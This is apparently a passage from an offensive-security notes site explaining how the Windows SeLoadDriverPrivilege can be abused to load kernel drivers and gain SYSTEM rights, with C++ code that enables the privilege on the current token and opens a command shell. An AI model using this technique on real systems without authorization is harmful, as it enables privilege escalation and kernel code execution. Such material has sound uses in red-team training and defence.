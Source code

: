### SeLoadDriverPrivilege <a href="#seloaddriverprivilege" id="seloaddriverprivilege"></a>

A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka `NT\System`. See how `offense\spotless` user has this privilege:

![](../../.gitbook/assets/a8.png)

`Whoami /priv` shows the privilege is disabled by default:

![](../../.gitbook/assets/a9.png)

However, the below code allows enabling that privilege fairly easily:

{% code title="privileges.cpp" %}
```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	system("cmd");
    return 0;
}
```
{% endcode %}
